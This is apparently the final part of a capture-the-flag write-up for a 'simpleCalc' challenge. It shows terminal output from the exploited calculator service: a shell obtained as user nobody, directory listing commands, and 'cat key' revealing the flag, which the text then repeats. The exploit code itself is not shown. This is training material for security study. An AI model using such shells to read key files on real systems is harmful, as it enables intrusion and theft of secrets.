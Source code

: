 
    Expected number of calculations:
    Options Menu:
     [1] Addition.
     [2] Subtraction.
     [3] Multiplication.
     [4] Division.
     [5] Save and Exit.
    =>
    Integer x:
    Integer y:
    Result for x - y is 0.
    .
    .
    .
    [*] Switching to interactive mode
    Integer y: Result for x + y is 7077888.

    Options Menu:
     [1] Addition.
     [2] Subtraction.
     [3] Multiplication.
     [4] Division.
     [5] Save and Exit.
    => $ id
    uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
    $ ls -la
    total 2052
    drwxr-xr-x 2 calc calc   4096 Mar  5 03:24 .
    drwxr-xr-x 3 root root   4096 Mar  4 05:04 ..
    -rw-r--r-- 1 calc calc    220 Mar  4 05:04 .bash_logout
    -rw-r--r-- 1 calc calc   3637 Mar  4 05:04 .bashrc
    -rw-r--r-- 1 calc calc    675 Mar  4 05:04 .profile
    -rw-r--r-- 1 root root     32 Mar  4 05:23 key
    -rwxr-xr-x 1 root root     80 Mar  5 03:24 run.sh
    -rwxrwxr-x 1 calc calc 882266 Mar  5 03:24 simpleCalc
    -rwxrwxr-x 1 calc calc 882266 Mar  5 03:23 simpleCalc_v2
    -rw-r--r-- 1 root root 302348 Feb  1  2014 socat_1.7.2.3-1_amd64.deb
    $ cat key
    BKPCTF{what_is_2015_minus_7547}
    [*] Got EOF while reading in interactive
    ###


the flag is **BKPCTF{what_is_2015_minus_7547}**
